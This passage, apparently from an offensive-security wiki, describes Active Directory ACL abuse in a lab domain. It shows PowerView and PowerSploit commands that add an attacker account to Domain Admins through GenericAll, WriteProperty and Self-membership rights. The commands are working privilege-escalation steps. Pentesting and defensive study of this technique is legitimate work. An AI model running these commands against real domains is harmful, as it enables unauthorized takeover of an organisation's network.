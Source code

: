 ![](<../../.gitbook/assets/Screenshot from 2018-11-08 09-50-20.png>)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

We can see that our attacking user `spotless` has `GenericAll` rights once again:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 09-52-10.png>)

Effectively, this allows us to add ourselves (the user `spotless`) to the `Domain Admin` group:

```csharp
net group "domain admins" spotless /add /domain
```

![](<../../.gitbook/assets/Peek 2018-11-08 10-07.gif>)

Same could be achieved with Active Directory or PowerSploit module:

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### GenericAll / GenericWrite / Write on Computer

If you have these privileges on a Computer object, you can pull [Kerberos Resource-based Constrained Delegation: Computer Object Take Over](resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution.md) off.

### WriteProperty on Group

If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 11-11-11.png>)

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 11-06-32.png>)

### Self (Self-Membership) on Group

Another privilege that enables the attacker adding themselves to a group:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 11-23-52.png>)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
